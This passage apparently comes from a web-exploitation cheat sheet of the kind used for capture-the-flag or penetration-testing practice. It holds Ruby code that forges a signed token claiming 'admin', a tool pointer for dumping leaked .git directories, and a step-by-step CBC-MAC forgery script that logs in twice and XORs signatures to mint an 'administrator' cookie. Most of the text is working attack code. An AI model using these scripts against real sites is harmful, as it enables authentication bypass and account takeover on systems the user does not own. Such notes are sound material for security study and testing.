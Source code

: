```ruby

# Our payload goes here
payload = Base64.urlsafe_encode64("admin").gsub(/=+$/, "")
token = Base64.urlsafe_encode64(header.to_json).gsub(/=+$/, "") + "." + payload
sign = priv_key.sign("SHA256", token)

puts token + "." + Base64.urlsafe_encode64(sign).gsub(/=+$/, "")
```

## Leaked .git
We can [this](https://github.com/internetwache/GitTools) tools to extract leaked `.git/` directory

## CBC-MAC
In this example, we will change our user to `administrator`. We know that CBC has 8 bytes So we need to create 2 `user`. It's `administ` and `rator`. We need to generate the first signature using `administ`, because the IV is null. After that, we XOR the signature from `administ` and `rator` so we get signature2. After that, we generate `administrator` with signature2.

Here is the code:

```ruby
require 'httparty'
require 'base64'

URL = "URL"
def login(username, password)
    res = HTTParty.post(URL+'login.php', body: { username: username, password: password}, follow_redirects: false)

    # auth = Val
    return res.headers['set-cookie'].split("=")[1]
end

cookie =  login("administ", "aaa")
signature1 = Base64.decode64(cookie).split("--")[1]

def xor(str1, str2)
    ret = ""
    str1.split(//).each_with_index do |c, i|
        ret[i] = (str1[i].ord ^ str2[i].ord).chr
    end
    return ret
end

username2 = xor("rator\00\00\00", signature1)
cookie2 = login(username2, "aaa").gsub("%2B", "+")
signature2 = Base64.decode64(cookie2).split("--")[1]

puts Base64.encode64("administrator--#{signature2}")
```
